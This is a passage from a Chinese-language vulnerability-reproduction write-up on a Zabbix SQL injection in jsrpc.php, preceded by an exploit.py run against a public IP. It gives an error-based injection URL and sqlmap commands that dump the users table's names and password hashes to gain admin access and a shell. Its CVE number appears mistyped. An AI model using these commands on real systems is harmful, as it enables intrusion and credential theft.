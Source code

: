 然后我们执行命令

```
python3 exploit.py 120.46.179.184
```

我们就能在/tmp/下看见一个新创的文件夹

（不知道为啥失败率都挺高的）



## CVE-2016-101342(sql注入漏洞复现)

### 漏洞描述

Zabbix 的latest.php中的toggle idsI或jsrpc.php种的profieldx2参数存在sql注入，通过sql注入获取管理员账户密码，进入后台，进行getshel操作。

影响版本

```
zabbix 2.0.x| 2.2.x| 2.4.x| 3.0.0-3.0.3
```



### 漏洞复现

**方法一：存在guest空密码账号，无需登录可爆出漏洞：**

访问页面，无需登录，使用注入语句

```
http://x.x.x.x:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
```

通过报错注入得到用户信息和ip信息

![image-20250807090812457](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202508070908584.png)



**方法二：用sqlmap**

```bash
查所有库:python3 sqlmap.py -u "http://x.x.x.x:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" --dbs查zabbix

表:python3 sqlmap.py -u "http://x.x.x.x:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" -D zabbix --tables

查users列:python3 sqlmap.py -u "http://x.x.x.x:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" -D zabbix -T users --columns

查userid,name,passwd数据:python3 sqlmap.py -u "http://x.x.x.x:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" -D zabbix -T users -C userid,name,passwd --dump
```
